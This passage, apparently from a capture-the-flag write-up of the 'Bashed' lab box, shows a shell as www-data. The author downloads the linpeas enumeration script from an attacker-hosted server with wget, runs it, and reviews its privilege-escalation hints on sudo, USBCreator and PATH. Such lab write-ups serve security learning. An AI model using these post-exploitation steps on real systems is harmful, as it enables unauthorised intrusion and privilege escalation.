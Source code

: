 I downloaded it to the box, gave it permissions to be executed, and ran it:

```bash
www-data@bashed:/tmp# wget 10.10.14.13:8000/linpeas.sh

  
\--2021-05-05 02:18:03-- http://10.10.14.13:8000/linpeas.sh  
Connecting to 10.10.14.13:8000... connected.  
HTTP request sent, awaiting response... 200 OK  
Length: 325084 (317K) \[text/x-sh\]  
Saving to: 'linpeas.sh'

www-data@bashed:/tmp# chmod +x linpeas.sh

  
chmod: invalid mode: 'x'  
Try 'chmod --help' for more information.  

www-data@bashed:/tmp# chmod 777 linpeas.sh

  

www-data@bashed:/tmp# ls -la

  
total 360  
drwxrwxrwt 10 root root 4096 May 5 02:18 .  
drwxr-xr-x 23 root root 4096 Dec 4 2017 ..  
drwxrwxrwt 2 root root 4096 May 5 00:29 .ICE-unix  
drwxrwxrwt 2 root root 4096 May 5 00:29 .Test-unix  
drwxrwxrwt 2 root root 4096 May 5 00:29 .X11-unix  
drwxrwxrwt 2 root root 4096 May 5 00:29 .XIM-unix  
drwxrwxrwt 2 root root 4096 May 5 00:29 .font-unix  
drwxrwxrwt 2 root root 4096 May 5 00:29 VMwareDnD  
\-rwxrwxrwx 1 www-data www-data 325084 Feb 11 07:48 linpeas.sh  
drwx------ 3 root root 4096 May 5 00:29 systemd-private-6bbc99fde6194264ac09780fc8275331-systemd-timesyncd.service-DAJK4C  
drwx------ 2 root root 4096 May 5 00:29 vmware-root  

www-data@bashed:/tmp# ./linpeas.sh
```

It was harder to read without colours, but `\[1;31m` prefix indicates red.

There were no interesting processes listed, although `dbus` was highlighted. It also highlighted `sudo` as being vulnerable, but that was to a recent CVE and I assumed that was an unintended path as the box was from 2018.

```bash
\[1;33m\[+\] \[1;32mSudo version  
\[0m\[1;34m\[i\] \[1;33mhttps://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version  
\[0mSudo version \[1;31m1.8.16\[0m
\[1;33m\[+\] \[1;32mUSBCreator  
\[0m\[1;34m\[i\] \[1;33mhttps://book.hacktricks.xyz/linux-unix/privilege-escalation/d-bus-enumeration-and-command-injection-privilege-escalation  
\[0m  
\[1;33m\[+\] \[1;32mPATH  
\[0m\[1;34m\[i\] \[1;33mhttps://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-path-abuses  
\[0m/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin  
New path exported: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
